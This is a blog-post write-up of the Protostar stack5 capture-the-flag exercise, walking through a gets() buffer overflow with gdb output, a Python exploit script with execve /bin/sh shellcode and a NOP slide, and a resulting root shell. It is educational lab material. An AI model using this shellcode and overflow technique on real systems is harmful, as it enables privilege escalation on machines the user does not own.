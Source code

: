 ```yaml
---
layout: post
title: Protostar Writeup - stack5
updated: 2018-08-07 15:30
tags: [tech, ctf, protostar, binary exploit]
---
```


## Protostar - stack5

This is one of my favorite challenges. We actually get to do something useful here. Our task is to execute shellcode.
Shellcode is nothing but a sequence of bytes, which when executed does some task. Note that this only works if the stack is executable.
This is true for older machines, however newer ones mitigate this vulnerability my making the stack non executable. We don't have to worry much about that.
So here's the code.

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
{% endhighlight %}

Nothing useful overhere, except the fact that we have an exploitable `gets()` function. So our choice of attack is a buffer overflow. We know from the previous post, that we can overflow into the EIP. Thus controlling the codeflow.
Once we can do that, it's just a matter of redirecting control to our 'injected' shell code. First things first. Let's get the offset of the EIP. I'm using pwntools to generate the offset string.

{% highlight shell %}
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab

Breakpoint 1, main (argc=1633771893, argv=0x61616176) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
{% endhighlight %}

Finding "0x61616174" in the offset string we find the location of the EIP at 76 bytes. So our address to our shellcode goes after 76 bytes of padding.
Before we proceed let's take a look at the stack and figure out where to place our shell code.

{% highlight shell %}
$ python -c "print 'A' * 76 + 'ABCD'" > /tmp/exploit
$ gdb stack5
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, main (argc=0, argv=0xbffff854) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
(gdb) x/24wx $esp
0xbffff7b0:	0x00000000	0xbffff854	0xbffff85c	0xb7fe1848
0xbffff7c0:	0xbffff810	0xffffffff	0xb7ffeff4	0x08048232
0xbffff7d0:	0x00000001	0xbffff810	0xb7ff0626	0xb7fffab0
0xbffff7e0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
0xbffff7f0:	0xbffff828	0x87ea710a	0xadbd671a	0x00000000
0xbffff800:	0x00000000	0x00000000	0x00000001	0x08048310
{% endhighlight %}
We can probably choose anyone of these addresses, let's try the first one `0xbffff7b0`.
Below is the exploit script code.

{% highlight python %}
import struct

offset = 'A' * 76
address = struct.pack("I", 0xbffff7b0)
shellcode = 'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'

def go():
    print offset + address + shellcode

go()
{% endhighlight %}

Now let's run this and see what happens.

{% highlight shell %}
$ python /tmp/exploit.py | ./stack5
{% endhighlight %}

Oh oh!. Something's not right, we're getting an illegal instruction error. Let's take a look at it in the debugger.
We find something even more funny here, it works perfectly fine in the debugger.

{% highlight shell %}
$ python /tmp/exploit.py > /tmp/exploit
$ gdb stack5
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, main (argc=795371626, argv=0x68732f2f) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.
Executing new program: /bin/dash

Program exited normally.
{% endhighlight %}

This actually bugged me for quite some time. I found a solution to this in the reddit thread [here](https://www.reddit.com/r/LiveOverflow/comments/8pr5ox/problem_on_protostar_stack5/).
What happens is that when you execute a program, the OS even pushes the environment variables onto the stack.
Now when we run the executable outside gdb, the environment is different, and hence the shellcode gets misaligned.
To counter this we can use something called as a NOP slide. NOP is short for no instruction, which will basically do nothing.
The idea is that you set your EIP to an arbitrary address which you hope will land on the NOP slide.
We place our shellcode after the NOP slide, so when the NOPs are done executing, our shellcode is executed.
There is a little trick to choosing this arbitrary address and length of NOP slides, they should be a multiple of 4, else your shellcode will be misaligned.
This is what is happening to us outside gdb, our shellcode is getting misaligned, so let's fix it.
The below exploit is with a little trial and error, but you should get the idea.

{% highlight python %}
import struct

offset = 'A' * 76
address = struct.pack("I", 0xbffff7b0 + 16)
nopslide = '\x90' * 32
shellcode = 'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'

def go():
	print offset + address + nopslide + shellcode

go()
{% end highlight %}

Let's run it:

{% highlight shell %}
$ python /tmp/exploit.py | ./stack5
$
{% endhighlight %}

Ok, so no error this time. This begs the question, how do we use the shell, since it exits as soon as it is created.
The reason is that as the input stream closes the shell also exits. So we need a way to hold the input stream.
After digging around a little I came across this stackoverflow [post](https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection).

So using one of those techniques...

{% highlight shell %}
$ (python /tmp/exploit.py; cat) | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
{% endhighlight %}

Owned! We finally managed to get a shell with root privilages. I hope this gives you a taste of privilage escalation. This was by far the most fun exercise I've done. Hope you enjoyed this too :)

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)
